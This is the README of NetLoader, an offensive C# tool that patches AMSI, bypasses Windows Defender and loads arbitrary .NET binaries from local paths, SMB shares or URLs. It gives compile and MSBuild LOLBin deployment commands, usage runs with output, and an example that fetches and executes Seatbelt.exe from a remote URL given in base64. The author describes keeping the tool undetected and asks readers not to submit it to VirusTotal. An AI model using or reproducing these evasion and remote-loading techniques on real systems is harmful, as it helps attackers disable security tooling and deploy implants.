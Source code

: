 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 12.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes).
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!. SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
NetLoader has to be used in interactive mode when deployed using MSBuild

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote), non-interactive

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --path Seatbelt.exe --args whoami
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,008 seconds


Supports base64 inputs for those long strings that would usually break stuff! (non-interactive)

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] All arguments are Base64 encoded, decoding them on the fly
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,006 seconds

Deploy payload from remote URI with args, input is base64 in interactive mode

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> y
	[?] Input path or url -> aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL1NoYXJwQ29sbGVjdGlvbi9yYXcvbWFzdGVyL05ldEZyYW1ld29ya180LjBfeDY0L1NlYXRiZWx0LmV4ZQ==
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> d2hvYW1p
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,004 seconds

# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[Arno0x](https://twitter.com/Arno0x0x) for the partial rewrite that is now merged into the main repo [see gist](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

